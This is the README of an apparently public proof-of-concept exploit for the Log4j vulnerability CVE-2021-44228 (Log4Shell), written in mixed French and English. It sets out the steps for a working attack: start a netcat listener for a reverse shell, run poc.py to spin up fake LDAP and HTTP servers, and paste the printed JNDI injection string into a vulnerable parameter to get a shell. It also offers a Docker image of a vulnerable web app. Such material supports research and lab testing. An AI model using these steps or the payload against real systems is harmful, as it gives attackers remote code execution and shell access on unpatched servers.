 # log4j-shell-poc
A Proof-Of-Concept pour la récente vulnérabilité trouvée CVE-2021-44228 vulnerability. <br><br>
Log4j, a java logging library largement utilisée en elasticsearch, minecraft et autres.



Démo: 
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

Pour une  PoC, le fichier poc.py est pour. 


#### Prérequis:
```bash
pip install -r requirements.txt
```
#### Usage:


* Lancer un netcat listener pour accepter la connexion reverse shell <br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** Extraire java archive dans le même dossier sous le nom: `jdk1.8.0_20`.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Ce script va configurer un HTTP server et LDAP server pour vous, et il va créer un payload que vous pouvez  coller sur le paramètre vulnerable . Afprès cela, si tout marche bien, vous allez avoir un shell sur lport.

<br>


Notre vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Une fois lancer, vous pouvez accéder par: localhost:8080


Java version.
--------------------------------------

Java 8: `java-8u20`.

[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>


Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>


```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```


